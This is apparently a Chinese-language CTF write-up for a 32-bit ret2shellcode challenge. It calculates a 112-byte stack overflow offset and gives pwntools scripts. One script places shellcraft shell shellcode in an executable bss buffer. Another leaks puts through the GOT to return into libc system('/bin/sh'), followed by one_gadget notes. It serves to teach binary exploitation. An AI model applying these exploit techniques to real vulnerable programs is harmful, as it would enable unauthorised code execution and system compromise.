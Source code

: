 这里已知我们可控的地方距离ebp的地址，算一下偏移量

```plain
0x148-0x0dc=108
```

所以我们只要写入112(108+4 )个垃圾字节，之后再写想要的地址即可，这也就是IDA不可靠的问题

实际利用gdb动调才是正确的

先打本地

这里不像ret2text一样有后门函数了，这里需要自己构造利用shellcraft,之后利用上面给到的strncpy()函数，我们可以将shellcode写入s中，之后复制给buf2，buf2在bss段，而且之前checksec发现了BSS段RWX，可读可写可执行，所以就可以执行我们的shellcode

```plain
from pwn import *
io = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

io.sendline(shellcode.ljust(112,b'A') + p32(buf2_addr))
io.interactive()
```

这道题本地打不通，感觉题目问题，题目在bss段没有可执行权限，用libc打

```plain
from pwn import *
context(os='linux',arch='i386',log_level='debug')

sh = process("./pwn")
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('./pwn')
puts = elf.got["puts"]
putsp = elf.plt['puts']
shellcode = asm(shellcraft.sh())
buf2_addr = 0x0804A080
sh.recvuntil(b'!!!\n')
#pl=shellcode.ljust(112,b'\x00') + p32(buf2_addr)
#pl=shellcode+b'\x00'*(0x64-len(shellcode)+0x8+4)+p32(0x804A080)
pl = b'a'*112 + p32(putsp) + p32(0x0804852D) + p32(puts)

sh.sendline(pl)
sh.recvuntil(b'bye bye ~')
puts_libc = u32(sh.recv(4))
libcbase = puts_libc - 0x6dc40
print(hex(libcbase))
system = libcbase + libc.sym['system']
binsh = libcbase + 0x0018e363
pl = b'a'*104 + p32(system) +b'aaaa' + p32(binsh)
gdb.attach(sh)
pause()
sh.sendline(pl)
sh.interactive()

'''
0xc9bbb execve("/bin/sh", [ebp-0x2c], esi)
constraints:
  address ebp-0x20 is writable
  ebx is the GOT address of libc
  [[ebp-0x2c]] == NULL || [ebp-0x2c] == NULL
  [esi] == NULL || esi == NULL

0x14482b execl("/bin/sh", eax)
constraints:
  ebp is the GOT address of libc
  eax == NULL
```